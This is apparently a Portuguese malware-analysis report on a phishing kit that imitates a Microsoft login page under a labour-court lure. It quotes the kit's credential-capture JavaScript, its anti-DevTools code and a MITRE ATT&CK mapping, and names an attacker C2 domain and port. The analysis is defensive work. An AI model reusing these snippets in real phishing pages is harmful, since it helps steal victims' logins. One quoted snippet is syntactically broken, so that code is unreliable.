
**Figura 40. Trecho de exibição de comunicado de sessão expirada.** Trecho com mimetização de comportamento natural de expiração de sessão, e presença de excesso de comentários para documentação de funcionalidades.

### 10.4.1. Camada de coleta de dados

Nessa camada, foi possível observar a realização da captura do email e senha inserido pela vítima, com simulação de carregamento, mimetizando um processo de autenticação legítimo.
A captura do e-mail pelo estrtutra é realizado pela diretamante pelo campo de inserção do email `const emailInput = document.getElementById('usuario');` e `const emailValue = emailInput.value;`, esse acionando em conjunto um evento ouvinte, que aramzena o valor obtido em `localStorage`, isso indica que o kit captura o e-mail logo no primeiro passo e o armazena no navegador `localStorage.setItem('email', emailValue);` . Isso permite que, caso a página seja recarregada ou avance para a captura da senha, o e-mail não precise ser digitado novamente, mantendo a fluidez do ataque.
A captura da senha, é realizada, diretamente do elemento de inserção da senha na estrutura HTML `const senhaInput = document.getElementById('passwd');`, sendo a senha validada pelo tamanho para desbloqueio do botão de envio dela.
O carregamento do `requisitions.js`, e conteúdo decodificado do script `requisitions.js` sugere que a lógica de envio (POST) dos dados capturados para o servidor do atacante (C2) está centralizada nesse arquivo externo, uma vez que, realizando o cruzamento do conteúdo HTML e do conteúdo do script decodificado, observou-se a presença de iguais estruturas mencionadas, como `usuario`, `passwd`, `idSIButton9`, `localStorage`, entre outros.
A função `isValidEmail` é utilizada para dar uma aparência de legitimidade ao formulário, impedindo que o usuário digite dados falsos que "sujariam" o banco de dados do atacante.

```HTML
<script>
    // Captura o elemento de entrada do email
    const emailInput = document.getElementById('usuario')
    // Adiciona um ouvinte de evento para o evento 'input' que é acionado quando o valor do campo muda
    emailInput.addEventListener('input', function() {
        // Obtém o valor do campo de entrada
        const emailValue = emailInput.value
        // Armazena o valor do email em localStorage
        localStorage.setItem('email', emailValue);
    });
</script>
```

```HTML
<script src="js/requisitions.js"></script>
```

```HTML
<script>
    document.addEventListener('DOMContentLoaded', function() {
        const senhaInput = document.getElementById('passwd');
        const botaoEntrar = document.getElementById('botaoEntrar');
        const botaoAvancar = document.getElementById('idSIButton9');
        const loadingGif = document.getElementById('loadingGif');

        // Ativar botão após 5 caracteres na senha
        if (senhaInput && botaoEntrar) {
            senhaInput.addEventListener('input', function() {
                if (senhaInput.value.length >= 5) {
                    botaoEntrar.removeAttribute('disabled');
                } else {
                    botaoEntrar.setAttribute('disabled', 'disabled');
                }
            });
        }

        // Mostrar loading ao clicar em "Entrar"
        if (botaoEntrar) {
            botaoEntrar.addEventListener('click', function () {
                loadingGif.style.display = 'block';
            });
        }

        // Mostrar loading ao clicar em "Avançar"
        if (botaoAvancar) {
            botaoAvancar.addEventListener('click', function () {
                loadingGif.style.display = 'block';
            });
        }
    });
</script>
```

```js
function validarEmail() {
            var emailInput = document.getElementById("usuario");
            var submitButton = document.getElementById("idSIButton9");

            if (emailInput && submitButton) { // Verifica se os elementos existem
                if (isValidEmail(emailInput.value)) {
                    submitButton.classList.remove("disabled");
                } else {
                    submitButton.classList.add("disabled");
                }
            }
        }

        function isValidEmail(email) {
            var pattern = /^[a-zA-Z0-9._-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}$/;
            return pattern.test(email);
        }
```

```HTML
<script>
    document.addEventListener('DOMContentLoaded', function() {
        const senhaInput = document.getElementById('passwd');
        const botaoEntrar = document.getElementById('botaoEntrar');
        const botaoAvancar = document.getElementById('idSIButton9');
        const loadingGif = document.getElementById('loadingGif');

        // Ativar botão após 5 caracteres na senha
        if (senhaInput && botaoEntrar) {
            senhaInput.addEventListener('input', function() {
                if (senhaInput.value.length >= 5) {
                    botaoEntrar.removeAttribute('disabled');
                } else {
                    botaoEntrar.setAttribute('disabled', 'disabled');
                }
            });
        }

        // Mostrar loading ao clicar em "Entrar"
        if (botaoEntrar) {
            botaoEntrar.addEventListener('click', function () {
                loadingGif.style.display = 'block';
            });
        }

        // Mostrar loading ao clicar em "Avançar"
        if (botaoAvancar) {
            botaoAvancar.addEventListener('click', function () {
                loadingGif.style.display = 'block';
            });
        }
    });
</script>
```

![**Figura 41. Estrutura de captura de valor digitado de email.** Captura do valor digitado no campo de e-mail pela página por meio da declaração `const emailInput = document.getElementById('usuario')`, sendo armazenado em `localStorage`. Validação do email por uso de regex `var pattern = /^[a-zA-Z0-9._-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}$/` para identificação de características de um e-mail válido: presença de '@' e '.' após palavra aós o '@'.](./images/41.png)
**Figura 41. Estrutura de captura de valor digitado de email.** Captura do valor digitado no campo de e-mail pela página por meio da declaração `const emailInput = document.getElementById('usuario')`, sendo armazenado em `localStorage`. Validação do email por uso de regex `var pattern = /^[a-zA-Z0-9._-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}$/` para identificação de características de um e-mail válido: presença de '@' e '.' após palavra aós o '@'.

Para completa análise de correlação entre strings encontradas no script `requisitions.js` decodificado, e no documento HTML da página, foi criado script em python,, nomeado `correlations.py`, que realiza o cruzamento dos caracteres obtidos do scirpt após decodificação presentes no documento ``decode_formatted.json`` e do documento HTML da página `Index-home.html`, podendo o script também ser acessado pelo repositório **Correlation Scraper: JSON & HTML String Matcher** através do link [https://github.com/pcanossa/Correlation_Scraper/](https://github.com/pcanossa/Correlation_Scraper/).
A análise, retornou de 31 caracteres presentes no script e no documento HTML como o `ajax`, presenta na linha 336 do documento HTML (`<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.0/jquery.min.js"></script>
`)

```Text
[+] Strings correlacionadas: 31

=== ajax ===
Linha 336: <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.0/jquery.min.js"></script>

=== chave ===
Linha 220: click: switchtofidocredlink_onclick">entrar com uma chave de segurança</a>
Linha 221: <span class="help-button" role="button" tabindex="0" aria-label="saiba mais sobre como entrar com uma chave de segurança">
...

=== formlogin ===
Linha 156: <form id="formlogin" novalidate="novalidate" spellcheck="false" method="post" target="_top" autocomplete="off" class="provide-min-height">
...
```


**Figura 42. Estrutura de captura de valor inserido no campo de senha e presença de elementos entre o script `requisitions.js ` e o documento HTML.** Observado a captura do valor digitado da senha, diretamente no campo de inserção de senha, pela declaração `const senhaInput = document.getElementById('passwd');`. Elementos iguais entre o script `requisitions.js` e o documento HTML, como  `passwd` e `idSIButton9`

### 10.4.1. Camada de defesa e anti-análise

A análise permitiu verificar a presença de scripts para dificultar a investigação por analistas de segurança ou ferramentas automatizadas através de mecanismo que desabilita o botão direito do mouse (`contextmenu`), a fim de impedir a exibição de menu com opção de exibição do código fonte; bloqueio de atalhos de teclado para o **Developer Tools** (`F12`, `Ctrl+Shift+I`, `Ctrl+Shift+J`) e Bloqueia atalhos para visualizar o código-fonte (`Ctrl+U`) ou salvar a página (`Ctrl+S`).

```HTML
<script>
    // Desabilita o botão direito do mouse
    document.addEventListener(, function(event) {
        event.preventDefault();
    });

    // Bloqueia atalhos comuns para abrir as Ferramentas do Desenvolvedor
    document.addEventListener('keydown', function(event) {
        if (event.key === "F12" || 
            (event.ctrlKey && event.shiftKey && (event.key === 'I' || event.key === 'J')) || 
            (event.ctrlKey && (event.key === 'U' || event.key === 'S'))) {
            event.preventDefault();
        }
    });
</script>
```


**Figura 43. Mecanismos de evasão de defesa e anti-análise.** Função de bloqueio do botão do mouse direito (`'contextmenu'`), de **DevTools** pela tecla `F12` ou atalhos (`Ctrl+Shift+I` e `Ctrl+Shift+J`) , acesso ao código fonte por atalhos (`Ctrl+U`) e salvamento da página(`Ctrl+S`).

## 11. IOCs extraídos

Os IOCs identificados e extraídos na presente análise, podem ser acessados pelo documento [`IOCs.json`](../IOCs/IOCs.json) contidos dentro da pasta `IOCs`.

## 12. Mapeamento em framework MITRE ATT&CK

| Tática | Técnica (ID) | Descrição da Atividade Identificada |
| :--- | :--- | :--- |
| **Acesso Inicial** | **Phishing: Spearphishing Link (T1566.002)** | Envio de e-mail utilizando o nome do TRT com título intimidatório para induzir o clique em um link malicioso. |
| **Execução** | **User Execution: Malicious Link (T1204.001)** | A vítima é induzida a clicar no botão "Acessar Processo" e interagir com a página de phishing. |
| **Persistência** | **Web Session Cookie (T1539)** | Uso de UUIDs e tokens dinâmicos para rastrear individualmente as vítimas e gerenciar o fluxo do ataque. |
| **Evasão de Defesa** | **Obfuscated Files or Information (T1027)** | O script principal (`requisitions.js`) utiliza ofuscação com rotação de array e codificação XOR para dificultar a análise técnica. |
| | **Virtualization/Sandbox Evasion (T1497)** | Uso de `x-frame-options: SAMEORIGIN` e desafios de captcha (Cloudflare) para impedir análise por sandboxes automatizadas. |
| | **Abuse of Infrastructure (T1583.001)** | Utilização de serviços de CDN (Cloudflare) e infraestrutura de proxy para ocultar o endereço IP real do servidor de origem. |
| **Acesso a Credenciais** | **Phishing for Credentials (T1566.001)** | Implementação de páginas clone de login da Microsoft Live para captura de e-mail e senha. |
| **Coleta** | **Input Capture: Keylogging (T1056.001)** | O script desofuscado revela a captura das entradas inseridas nos campos de usuário e senha em tempo real. |
| **Comando e Controle** | **Application Layer Protocol: Web Protocols (T1071.001)** | Uso de protocolo HTTPS para comunicação com os endpoints de exfiltração do atacante. |
| | **Non-Standard Port (T1571)** | Comunicação com o servidor C2 (`holmes456`) realizada através da porta não padrão **8443**. |
| | **Data Encoding (T1132.001)** | Emprego de um alfabeto Base64 personalizado para codificar os dados exfiltrados antes do envio. |
| **Exfiltração** | **Exfiltration Over C2 Channel (T1041)** | Envio das credenciais capturadas diretamente para os servidores controlados pelo atacante no domínio `acessoportalatendimento.app`. |


